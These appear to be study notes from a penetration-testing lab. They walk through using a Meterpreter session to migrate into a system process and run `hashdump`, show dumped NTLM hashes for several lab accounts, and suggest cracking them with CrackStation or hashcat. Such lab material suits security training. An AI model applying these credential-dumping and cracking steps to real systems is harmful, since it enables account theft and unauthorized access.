 - Now that we have a meterpreter session running on THROWBACK-TIME, we can utilize meterpreter's built-in tools and techniques to extract hashes and then get a ssh shell to explore the SQL database!

## Extending Meterpreter
- Meterpreter is a useful shell that allows us to execute shell commands as well as use some additional functionality within meterpreter. 
- The command we will be focusing on is the 'hashdump' command, similar to mimikatz it can allow us to dump NTLM hashes on the system. Meterpreter can also act as a C2 server with modules like incognito and powershell which we will cover later in this course.

![[Pasted image 20221020165948.png]]


## Migrating to a different process overview
- If you are not in a system process, then hashdump wont really work.
- So we need to do the following to migrate to a different process


1. Use `ps` utility to list out all the processes running on the system

2. Use `migrate <PID>` to migrate to another process running on the system.

3. Now use `hashdump` to dump hashes on the THROWBACK-TIME machine

Hashdump
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:43d73c6a52e8626eabc5eb77148dca0b:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
sshd:1008:aad3b435b51404eeaad3b435b51404ee:6eea75cd2cc4ddf2967d5ee05792f9fb:::
Timekeeper:1009:aad3b435b51404eeaad3b435b51404ee:901682b1433fdf0b04ef42b13e343486:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```


# Disclamer - Crack hashes from crackstation.exe but only include the hash from the third colo (:) 
- Else we can use hashcat too for the same process

